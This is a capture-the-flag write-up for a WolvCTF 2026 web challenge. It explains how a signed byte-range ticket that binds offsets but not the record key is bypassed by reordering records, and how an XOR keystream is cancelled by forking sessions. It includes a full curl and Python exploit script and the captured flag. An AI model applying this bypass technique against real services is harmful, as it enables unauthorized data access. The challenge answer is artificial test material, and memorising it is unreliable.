



## Recon

The archive stores several records in one byte bundle. We can request a signed ticket for our own `z-owned` record and use it with an HTTP Range header, but the clerk refuses tickets for `m-sealed`.



At revision 0 the bundle is 304 bytes, with records sorted alphabetically by key:

```text
m-sealed    64 B      0-63
p-public    48 B     64-111
z-owned     64 B    112-175
zz-scratch 128 B    176-303
```

A ticket for `z-owned` binds the exact range `bytes=112-175`, and changing that range produces a 416 response. The ticket binds `total_bytes`, but neither the record key nor the revision. It survives a same-size refile, yet fails when adding a record or compacting changes the total.

The signed session cookie carries the workspace state. We cannot edit it, but we can replay copies of one cookie jar to create parallel branches with the same session ID. That becomes useful when the returned slices turn out to be XOR-masked with a session-scoped keystream.

## Exploitation

We need `m-sealed` at bytes 112-175 while restoring the signed total of 304. Refiling `p-public` to `a-public` moves 48 bytes before the sealed record without changing the total. Adding `b-fill` with 36 characters creates a 64-byte record that also sorts before it, taking the total to 368 and the sealed offset to 112. Compacting then removes 64 bytes of scratch padding, restoring 304 without moving the sealed record.

```text
a-public 0-47 | b-fill 48-111 | m-sealed 112-175 | z-owned 176-239 | scratch 240-303
```



The returned slices are not plain bytes: the server XORs the bundle with a keystream tied to the session before sending it, so a single slice is unreadable on its own. The keystream is the same for every record in a session, which is what lets us cancel it.

We reuse the original cookie jar and ticket to fork the session into two states. In one branch we add `b-fill`, moving the sealed record into the signed window; in the other we add `n-fill`, 36 known `F` bytes, so that known record occupies the same window instead. Both slices come from the same session, so both are masked with the same keystream `K`.



Each slice is 64 bytes, and the record's 36 content bytes start at offset 17. The first branch returns `X = sealed ⊕ K`, the second returns `Y = known ⊕ K`. XORing the two cancels the keystream: `X ⊕ Y = sealed ⊕ known`. XORing that with the known `F` bytes leaves the sealed record, so we only need bytes 17 through 52.

We run both branches from the same original cookie and ticket, saving the returned slices as `X.bin` and `Y.bin`:

```bash
B=https://shifted-slice-web.wolvctf-2026.kctf.cloud
c() { curl -s -b "$J" -c "$J" "$@"; }
J=trunk.txt; rm -f "$J"
c -X POST -H 'Content-Type: application/json' -d '{}' "$B/api/reset"
T=$(c -X POST -H 'Content-Type: application/json' -d '{"key":"z-owned"}' \
    "$B/api/tickets" | python3 -c 'import sys,json;print(json.load(sys.stdin)["ticket"])')
cp "$J" base_jar.txt
TXT=$(python3 -c "print('F'*36)")
branch() {
  J=$1; cp base_jar.txt "$J"
  c -X POST -H 'Content-Type: application/json' \
    -d '{"from":"p-public","to":"a-public"}' "$B/api/refile" >/dev/null
  c -X POST -H 'Content-Type: application/json' \
    -d "{\"key\":\"$2\",\"text\":\"$TXT\"}" "$B/api/records" >/dev/null
  c -X POST -H 'Content-Type: application/json' -d '{}' "$B/api/compact" >/dev/null
  curl -s -b "$J" -H "Authorization: Bearer $T" -H 'Range: bytes=112-175' \
    "$B/api/bundle" -o "$3" -w "$3: %{http_code} %{size_download}\n"
}
branch sealed.txt b-fill X.bin
branch known.txt n-fill Y.bin
# X.bin: 206 64
# Y.bin: 206 64
```

## Flag capture

The differential reveals the sealed body, including its braces and trailing newline. We prepend the `wctf` prefix from the record header when formatting the result:

```bash
$ python3 - <<'EOF'
X = open('X.bin','rb').read(); Y = open('Y.bin','rb').read()
body = bytes(x ^ y ^ f for x, y, f in zip(X[17:53], Y[17:53], b'F'*36))
print('wctf' + body.decode().strip())
EOF
wctf{2ad127e3d6d87a29e350f89b89c413a8}
```
